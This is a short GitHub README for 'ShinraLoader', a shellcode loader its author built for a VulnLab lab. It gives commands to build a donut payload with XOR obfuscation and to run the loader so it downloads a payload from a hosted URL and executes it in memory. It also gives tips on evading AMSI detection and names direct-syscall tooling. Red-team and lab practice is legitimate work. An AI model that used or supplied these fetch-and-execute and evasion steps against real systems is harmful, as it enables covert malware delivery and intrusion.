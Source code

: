 # ShinraLoader
Shellcode loader that I created to use for VulnLab's Shinra.
Requires donut: https://github.com/TheWover/donut
```sh
pip install donut-shellcode
```
Usage: Create your payload
```sh
python donutGenerator.py -i SharpEfsPotato.exe -b 1 --args='-p calc.exe' -x "HelloWorld"
```
Host the file on a web server and use the loader to download into memory and execute
```powershell
.\Loader.exe /p:http://example.com/payload.bin /x:HelloWorld
```
Omit -x and /x: if not using XOR functionality.

Donut doesn't bypass amsi anymore (AMSI_Patch_T.B12), so I recommend making sure your payloads don't trigger it before sending them off. Add the flag -b 1 to avoid your shellcode being created with the now non-functional amsi-bypass.

Inspired by my teammate Mane: https://github.com/manesec/shellcodeloader4mane
Using syswhispers3 syscalls: https://github.com/klezVirus/SysWhispers3
